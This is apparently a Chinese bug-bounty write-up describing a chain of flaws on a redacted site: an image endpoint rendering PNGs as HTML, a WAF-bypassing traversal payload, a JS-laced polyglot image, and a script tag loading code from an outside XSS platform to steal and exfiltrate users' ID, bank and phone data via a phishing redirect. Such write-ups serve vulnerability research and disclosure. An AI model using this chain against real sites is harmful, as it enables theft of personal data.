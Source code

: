 #  一次混合双打出来的漏洞   
原创 X1ly?S  富贵安全   2025-01-27 01:27  
  
### 先是在某SRC官网FUZZ出一处图片显示接口，发现image__name参数是图片路径，那么有几个可尝试的点：文件包含getshell；目录穿越；ssrf……  
```
https://xxx.cn/xxxx/ueditor?image_name=/xxx.png

```  
### 经过尝试，文件包含、ssrf都不行，只是拼接读取了远程资源站的图⽚。但在给路径后加上”+”后，奇迹出现了：  
```
https://xxx.cn/xxxx/ueditor?image_name=/xxx.png+

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/veA9QmcJk5nyQef1kxicHMWxGVtL9RpLHB8vf7DDTgHGTh72YdAlYLaA3fqyNjWQiaYbScg7tau11bib89kzy7Law/640?wx_fmt=jpeg&from=appmsg "")  
### 图⽚被意外的解析成了HTML⻚⾯，此处存在文件解析漏洞！  
- 既然能把png解析为html，那么我们构造一个带有JS代码的图片，访问路径，加上”+”，就构成了存储型XSS  
  
- 继续尝试目录穿越，/../../3.png，出现了自研WAF，拦截了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5nyQef1kxicHMWxGVtL9RpLHMes6twqxSCGv54ZAtuo8XNsc45rR52bCxRxdkn9qGH3ibgqThQgc6Fg/640?wx_fmt=png&from=appmsg "")  
- 没事，使用burp FUZZ一下就bypass了  
  
```
Payload: /..%252F/

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5nyQef1kxicHMWxGVtL9RpLHeAgNTpnrMtzD6ibdtb4XLIHCaJzeZCeVRh9fLNMBtzpmmIOzDtDRR7Q/640?wx_fmt=png&from=appmsg "")  
### 漏洞利⽤  
#### 现在已经可以存储型XSS+目录穿越了，又已知该SRC官网因为要打款奖励，所以需要用户填写个⼈信息(姓名，⼿机号，sfz等信息)，⽽这些信息⽤户自己可以在个人中心处查看，于是直接打一套组合拳提升危害，去盗取这些个人信息  
- 利⽤010Editor或copy命令，构造含有恶意代码的图⽚  
  
- 010Editor：就不多说了，以16进制方式打开后，直接把js代码加在末尾就可以了 copy命令：  
  
```
copy tiny.png /b + code.txt /a tiny_code.png

```  
### 拿一张很小的普通图片tiny.png，js代码写在code.txt，二者合成生成了tiny_code.png：插入了恶意js代码的图片  
```
<script src="http://xss.com/xxx/demo.js"></script>

```  
  
这个http://xss.com/xxx/demo.js其实就是把demo.js部署在了远程XSS平台，这样看可以执行更多的JS代码，且方便接收执行得到的数据  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5nyQef1kxicHMWxGVtL9RpLHp35Bxo8rh5XHm3Nbic61QLOvUZUticFfOhiboibASXco4ibE6aj25lINmpQ/640?wx_fmt=png&from=appmsg "")  
### 脚本会通过Ajax请求URL，使⽤DOMParser转换并解析DOM对象，提取⽤户身份证、银⾏卡、⼿机号、地址等信息后合并base64编码发送到XSS平台接收数据  
- 构造好了恶意图片，那么就去找文件上传接口上传图片了，直接上传刚刚构造好的恶意图片，但是上传到的路径不是那个存在文件解析漏洞的路径下，于是目录遍历漏洞就派上用场了，在那个存在文件解析漏洞的接口image__name参数传入/..%252F/xxx/xxx/tiny_code.png穿越一下目录，就可以了  
  
- 然后再构造一个，用来钓鱼跳转的网站，实现只要受害者访问该网站，就自动跳转去请求我们刚才的恶意图片链接(被解析为了html执行)，就会无感的触发其中已经构造好的js代码，去远程调用XSS平台中的demo.js，获取SRC官网个人中心处的个人信息，并把数据发送给XSS平台接收  
  
钓鱼跳转网站  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5nyQef1kxicHMWxGVtL9RpLHqvTQ9mXycBl86JHuKMr3Aq9Ucer1Rc9ssGiaAXUXtUODUMDMWkTLCkA/640?wx_fmt=png&from=appmsg "")  
- 构造好的恶意图片链接(被解析为了html执行)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5nyQef1kxicHMWxGVtL9RpLHO6cibd8jHKhpbwyvIoxgPBzjtMkG34h0DxTkXPOLRHseic75zzXAskYg/640?wx_fmt=png&from=appmsg "")  
- XSS平台接收到数据  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5nyQef1kxicHMWxGVtL9RpLHF7j2F8UImKic21L6ubqq0viczOIhfiaB1ZcUCa0efv5XWcH5MO2jOIyKg/640?wx_fmt=png&from=appmsg "")  
- 成功窃取到受害者的信息，base64解码即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5nyQef1kxicHMWxGVtL9RpLHQrGicianqAI06EBQm9K6WcAJtW47VjrPLiaBYx38VqUzxYqOSgUowoszg/640?wx_fmt=png&from=appmsg "")  
### 技术点总结  
- Fuzz出接⼝及参数,拼接+号解析成HTML⻚⾯  
  
- URL拼接时BypassWAF进⾏⽬录穿越  
  
- 使⽤DOMParser转换为DOM对象并提取表单input值，后通过window.btoa`函数base64编码字符串  
  
  
  
  
